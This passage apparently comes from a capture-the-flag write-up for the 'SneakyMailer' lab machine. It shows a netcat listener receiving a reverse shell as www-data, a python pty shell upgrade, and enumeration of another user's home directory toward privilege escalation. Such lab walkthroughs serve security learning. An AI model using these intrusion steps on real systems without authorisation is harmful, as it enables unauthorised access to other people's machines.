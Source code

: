 #### www-data shell

Getting a call back on `nc` listener:

```shell
cfx:  ~/Documents/htb/sneakymailer
→ nc -lvnp 8020
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8020
Ncat: Listening on 0.0.0.0:8020
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:50844.
Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 12:36:06 up 13 min,  0 users,  load average: 0.03, 0.04, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@sneakymailer:/$ whoami
whoami
www-data
```

## Elevating Priv www-data -> low

### Enumeration

Initial enumeration reveals that user flag is located inside home directory of user `low` and we don't have the permission to read it.

```shell
www-data@sneakymailer:/home$ ls
low  vmail

www-data@sneakymailer:/home/low$ ls -la
total 8
www-data@sneakymailer:/home/low$ ls -la
ls -la
total 48
drwxr-xr-x 8 low  low  4096 Jun  8 03:47 .
drwxr-xr-x 4 root root 4096 May 14  2020 ..
lrwxrwxrwx 1 root root    9 May 19  2020 .bash_history -> /dev/null
-rw-r--r-- 1 low  low   220 May 14  2020 .bash_logout
-rw-r--r-- 1 low  low  3526 May 14  2020 .bashrc
drwxr-xr-x 3 low  low  4096 May 16  2020 .cache
drwx------ 3 low  low  4096 May 14  2020 .gnupg
drwxr-xr-x 3 low  low  4096 May 16  2020 .local
dr-x------ 2 low  low  4096 May 16  2020 .pip
-rw-r--r-- 1 low  low   807 May 14  2020 .profile
drwxr-xr-x 2 low  low  4096 Jun  8 03:47 .ssh
-rwxr-x--- 1 root low    33 Dec  1 11:35 user.txt
drwxr-xr-x 6 low  low  4096 May 16  2020 venv
```
Now this is where things get interesting cause based on the second mail inside paul's mailbox, user low has to install, test and erase python module in PyPI service.
